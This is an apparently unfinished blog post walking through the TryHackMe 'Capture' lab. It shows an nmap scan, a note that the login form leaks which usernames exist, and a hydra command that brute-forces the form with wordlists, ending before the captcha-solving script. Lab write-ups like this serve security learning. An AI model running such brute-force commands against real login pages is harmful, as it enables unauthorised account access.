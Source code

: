 ```yaml
---
layout: post
title: "Capture"
date: 2023-06-17 
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe","Python","BruteForce"
---
```


# Capture: Updating
> https://tryhackme.com/room/capture

I downloaded the zip file that contains the login usernames and password that will be used to brurteforce into the login form !

## Nmap
```bash
nmap -sS -Pn [ip]

PORT     STATE SERVICE VERSION
80/tcp   open  http
```

I opened the website and its a login page, tried the usual default usernames and passwords. I noticed that it does say if the username exists or not!


## Hydra

```bash
hydra -L usernames.txt -P passwords.txt "http-post-form://10.10.224.246/login:username=^USER^&password=^PASS^:Error"
```

I get the 'Too many bad login attempts' error message with a mathematical Captcha, for this we need to build a script!.




